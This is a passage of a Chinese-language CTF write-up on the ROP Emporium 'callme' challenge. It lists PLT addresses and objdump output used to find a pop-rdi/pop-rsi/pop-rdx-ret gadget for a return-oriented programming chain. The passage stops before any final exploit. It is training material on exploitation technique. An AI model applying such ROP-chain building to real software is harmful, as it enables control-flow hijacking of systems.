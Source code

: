 ```
callme_one_plt__got = 0x00401850
callme_two_plt__got = 0x00401870
callme_three_plt__got = 0x00401810
```

那么第三步，还差一个关键地方，再次引用蒸米师傅的原话

> 这个函数的参数有三个，所以我们需要一个pop pop pop ret的gadget用来保证栈平衡。这个gadget非常好找，用objdump就可以轻松找到。

那么来找咯：
​    

```
mask@mask-virtual-machine:~$ objdump -d callme | grep -A 3 pop
  4018a5:	5e   	pop%rsi
  4018a6:	48 89 e2 	mov%rsp,%rdx
  4018a9:	48 83 e4 f0  	and$0xfffffffffffffff0,%rsp
  4018ad:	50   	push   %rax
--
  4018ef:	5d   	pop%rbp
  4018f0:	bf 78 20 60 00   	mov$0x602078,%edi
  4018f5:	ff e0	jmpq   *%rax
  4018f7:	66 0f 1f 84 00 00 00 	nopw   0x0(%rax,%rax,1)
--
  401900:	5d   	pop%rbp
  401901:	c3   	retq   
  401902:	0f 1f 40 00  	nopl   0x0(%rax)
  401906:	66 2e 0f 1f 84 00 00 	nopw   %cs:0x0(%rax,%rax,1)
--
  40193d:	5d   	pop%rbp
  40193e:	bf 78 20 60 00   	mov$0x602078,%edi
  401943:	ff e0	jmpq   *%rax
  401945:	0f 1f 00 	nopl   (%rax)
  401948:	5d   	pop%rbp
  401949:	c3   	retq   
  40194a:	66 0f 1f 44 00 00	nopw   0x0(%rax,%rax,1)

--
  401962:	5d   	pop%rbp
  401963:	c6 05 3e 07 20 00 01 	movb   $0x1,0x20073e(%rip)# 6020a8 <completed.7585>
  40196a:	f3 c3	repz retq 
  40196c:	0f 1f 40 00  	nopl   0x0(%rax)
--
  401990:	5d   	pop%rbp
  401991:	e9 7a ff ff ff   	jmpq   401910 <register_tm_clones>

0000000000401996 <main>:
--
  401a03:	5d   	pop%rbp
  401a04:	c3   	retq   

0000000000401a05 <pwnme>:
--
  401ab0:	5f   	pop%rdi
  401ab1:	5e   	pop%rsi
  401ab2:	5a   	pop%rdx
  401ab3:	c3   	retq   
  401ab4:	66 2e 0f 1f 84 00 00 	nopw   %cs:0x0(%rax,%rax,1)
  401abb:	00 00 00 
--
  401b1a:	5b   	pop%rbx
  401b1b:	5d   	pop%rbp
  401b1c:	41 5c	pop%r12
  401b1e:	41 5d	pop%r13
  401b20:	41 5e	pop%r14
```